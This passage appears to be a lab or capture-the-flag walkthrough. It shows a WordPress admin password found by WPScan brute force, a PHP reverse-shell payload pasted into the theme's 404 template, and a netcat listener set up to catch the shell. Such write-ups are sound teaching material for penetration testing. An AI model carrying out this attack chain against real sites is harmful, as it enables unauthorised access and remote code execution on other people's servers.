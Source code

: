 ```bash
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:05 <===========================> (137 / 137) 100.00% Time: 00:00:05

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / *******                     
Trying admin / kambal Time: 00:01:19 <                           > (3900 / 14348292)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: *******
```

* The attack was successful and a password for the wordPress admin user was found .

So Now We Loging in WordPress :

![1673103400671](image/READMI/1673103400671.png)

---

# Revershell :

We got in, what’s next? We already know that a specific theme is outdated, let’s visit that using theme editor. Go to appearance and click “ **theme editor** ”.

![1673104209899](image/READMI/1673104209899.png)

* We can use PHP to get the reverse shell using [Revershell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) payload . Either you can download on your machine or if you are using Kali Linux, it’s already there. We have to edit it to add our attacker machine IP address and port address. We are doing this because, after this .php file execution it gives us a reverse shell on specified IP address and port.
* Now copy all the content of Revershell.php file and go to the theme editor of WordPress and click on “ **404 Template** ”.
* Remove everything from that file and paste the copied content and click on “ **update file** ”.

---

The next step is to set up a Netcat listener, which will catch the reverse shell when it is executed by the victim host, using the following flags:

* -l to listen for incoming connections
* -v for verbose output
* -n to skip the DNS lookup
* -p to specify the port to listen on

***CMD:***

```bash
$nc -lnvp 1234
```
